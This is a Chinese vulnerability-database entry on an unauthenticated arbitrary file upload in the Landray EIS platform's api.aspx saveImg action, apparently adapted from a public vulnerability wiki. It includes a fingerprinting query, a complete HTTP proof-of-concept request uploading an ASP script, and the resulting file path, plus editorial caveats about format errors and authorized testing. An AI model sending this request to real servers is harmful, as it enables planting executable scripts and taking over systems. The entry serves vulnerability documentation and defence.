

# 蓝凌EIS api.aspx saveImg任意文件上传

## 条目说明

- 对象与具体问题：蓝凌EIS；api.aspx saveImg任意文件上传
- 版本、配置及部署条件：无版本；ASP脚本解析及editor_img可访问
- 认证与权限前提：请求无凭证，实际权限未知
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- multipart Content-Disposition name后缺分号/空格直接filename，格式错误
- 落点xxx占位需从响应提取而非猜测；真实响应仅图片
- EIS/.NET与EKP/Java应独立产品实体，不能按蓝凌混并

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

蓝凌EIS 智慧协同平台 api.aspx 文件存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件

### 漏洞影响

蓝凌EIS 智慧协同平台

### 网络测绘

```
icon_hash="953405444"
```

### 漏洞复现

登陆页面


poc

```http
POST /eis/service/api.aspx?action=saveImg HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynUqjgvhmkL1dxpCV
Upgrade-Insecure-Requests: 1

------WebKitFormBoundarynUqjgvhmkL1dxpCV
Content-Disposition: form-data; name="file"filename="test.asp"
Content-Type: text/html

<% response.write("Test")%>
------WebKitFormBoundarynUqjgvhmkL1dxpCV--
```

> 请求长度说明：原资料 Content-Length 为 219；静态长度已移除，应由客户端根据最终请求体的字节数生成。



```
/files/editor_img/xxx/xxx.asp
```

---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
